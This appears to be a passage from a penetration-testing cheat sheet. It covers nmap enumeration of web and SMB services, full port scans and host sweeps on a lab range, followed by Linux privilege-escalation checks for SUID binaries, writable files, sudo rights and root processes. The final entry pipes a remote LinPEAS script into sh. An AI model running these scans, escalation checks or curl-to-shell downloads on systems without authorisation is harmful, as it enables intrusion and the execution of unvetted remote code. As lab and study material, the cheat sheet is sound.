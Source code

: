 ### Web Server Enumeration
Enumerate web servers on common HTTP/S ports.
```bash
nmap --script http-enum 10.10.10.x -p 80,443 -oN web_enum.txt
```

### SMB Enumeration
Enumerate SMB shares and users.
```bash
nmap --script smb-enum-shares,smb-enum-users 10.10.10.x -p 445 -oN smb_enum.txt
```

### All Port Scan with Service Detection
Scan all 65535 TCP ports with service detection, ensuring a minimum packet rate.
```bash
nmap -p- -sV 10.10.10.x --min-rate 1000 -oN all_ports.txt
```

### Network Sweep
Discover live hosts on the network.
```bash
nmap -sn 10.10.10.0/24 -oN network_sweep.txt
```

# Linux Privilege Escalation

### SUID Binaries Search
Find files with SUID permission set.
```bash
find / -perm -u=s -type f 2>/dev/null
```

### World-Writable Files
Find world-writable files, excluding /proc and /sys.
```bash
find / -writable -type f -not -path "/proc/*" -not -path "/sys/*" 2>/dev/null
```

### Sudo Permissions
List sudo permissions for the current user.
```bash
sudo -l
```

### Running Processes as Root
List processes running as root.
```bash
ps aux | grep "^root"
```

### Run LinPEAS Script
Download and execute LinPEAS for automated enumeration.
```bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```
